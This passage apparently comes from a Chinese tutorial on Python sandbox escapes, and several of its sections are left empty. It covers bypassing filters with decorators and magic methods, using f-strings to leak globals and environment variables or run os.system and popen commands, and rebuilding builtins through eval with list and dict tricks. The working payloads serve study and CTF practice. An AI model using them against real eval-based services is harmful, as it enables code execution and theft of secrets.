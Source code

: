 ### 过滤了 ()[](#过滤了--3)

1.  利用装饰器 @
2.  利用魔术方法，例如 `enum.EnumMeta.__getitem__`

### f 字符串执行[](#f-字符串执行)

f 字符串算不上一个绕过，更像是一种新的攻击面，通常情况下用来获取敏感上下文信息, 例如过去环境变量

```
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
```

也可以直接 RCE

```
>>> f'{__import__("os").system("whoami")}'
kali
'0'
>>> f"{__builtins__.__import__('os').__dict__['popen']('ls').read()}"
```

### 反序列化绕过[](#反序列化绕过)

### 过滤了内建函数[](#过滤了内建函数)

#### eval + list + dict 构造[](#eval--list--dict-构造)

假如我们在构造 payload 时需要使用 str 函数、bool 函数、bytes 函数等，则可以使用 eval 进行绕过。

```
>>> eval('str')
<class 'str'>
>>> eval('bool')
<class 'bool'>
>>> eval('st'+'r')
<class 'str'>
```

这样就可以将函数名转化为字符串的形式，进而可以利用字符串的变换来进行绕过。

```
>>> eval(list(dict(s_t_r=1))[0][::2])
<class 'str'>
```

这样一来，只要 list 和 dict 没有被禁，就可以获取到任意的内建函数。如果某个模块已经被导入了，则也可以获取这个模块中的函数。

### 过滤了 . 和 ，如何获取函数[](#过滤了--和-如何获取函数)
